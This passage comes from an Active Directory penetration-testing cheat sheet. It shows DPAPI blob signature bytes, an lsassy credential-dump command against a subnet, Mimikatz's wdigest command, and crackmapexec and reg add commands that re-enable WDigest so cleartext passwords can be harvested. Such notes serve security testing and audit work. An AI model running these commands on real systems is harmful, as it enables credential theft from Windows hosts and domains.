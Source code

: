 You will potentially sometimes be able to identify binary blob encrypted using DPAPI based on 62 bytes:
```
01 00 00 00 d0 8c 9d df  01 15 d1 11 8c 7a 00 c0 4f c2 97 eb 01 00 00 00  d2 87 4b 1d ab ce 3d 43 a7 c8 43 4d bf ca ee fa  00 00 00 00 02 00 00 00 00 00 10 66 00 00 00 01  00 00 20 00 00 00
```

##### Lsassy
- https://github.com/Hackndo/lsassy

```
lsassy -d company.local -u jdoe -p Pass1234 192.168.1.0/24
```


### Bring Your Own Domain Controller
- https://blog.zsec.uk/byodc-attack/






## Misc : AD Audit

#### WDigest
- https://blog.xpnsec.com/exploring-mimikatz-part-1/

[Wdigest](https://docs.microsoft.com/pt-pt/previous-versions/windows/server/cc778868(v=ws.10)) was introduced in WinXP and designed to be used with HTTP protocol for authentication.  

Enabled *by default* in multiple versions of Windows:
- Windows XP
- Windows 8.0
- Server 2003
- Server 2008
- Server 2012

--> With *WDigest* plain text passwords are stored in LSASS.  

Retrieving using Mimikatz
```
sekurlsa::wdigest
```

Can be deactivated/activated setting to *1* the value of *UseLogonCredential* and *Negotiate* in **HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\WDigest**.  
--> If these registry keys don't exist or the value is "0", then WDigest will be deactivated.  

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v Negotiate
```

As an attacker you can reactivate WDigest to get cleartext credentials on sensitive systems.  
```
crackmapexec smb 192.168.0.10 -u jdoe -p Pass123 -M wdigest -o ACTION=enable
```
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

